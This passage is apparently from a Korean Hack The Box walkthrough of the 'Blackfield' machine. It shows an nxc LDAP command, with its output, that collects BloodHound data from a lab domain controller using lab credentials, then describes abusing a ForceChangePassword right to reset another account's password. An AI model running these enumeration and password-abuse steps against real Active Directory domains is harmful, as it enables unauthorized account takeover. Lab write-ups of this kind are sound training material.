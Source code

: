 
## Bloodhound (with NXC --bloodhound)
- `nxc` 도구의 --bloodhound 옵션을 사용하여 도메인 컨트롤러 내 정보를 수집한다.  

```zsh
└─# nxc ldap 10.129.229.17 -u support -p '#00^BlackKnight' --bloodhound --dns-server 10.129.229.17 --collection All
LDAP        10.129.229.17   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
LDAP        10.129.229.17   389    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
LDAP        10.129.229.17   389    DC01             Resolved collection methods: localadmin, trusts, acl, rdp, container, psremote, dcom, session, objectprops, group
LDAP        10.129.229.17   389    DC01             Done in 06M 07S
LDAP        10.129.229.17   389    DC01             Compressing output into /root/.nxc/logs/DC01_10.129.229.17_2025-08-27_134632_bloodhound.zip


[ . . . ]

└─# bloodhound
```

### Abusing ForceChangePassword (support > audit2020)
- [1] 블러드하운드로 확인 시 `support` 계정은 `audit2020` 계정의 패스워드를 강제 변경 가능했다.  

<img src='assets/post/2025/Playground/Hack The Box/Blackfield/3.png' width=1200 alt=''>

- [2] `audit2020` 계정의 패스워드 변경 후 접속을 시도한다. (계정 유효성 확인)
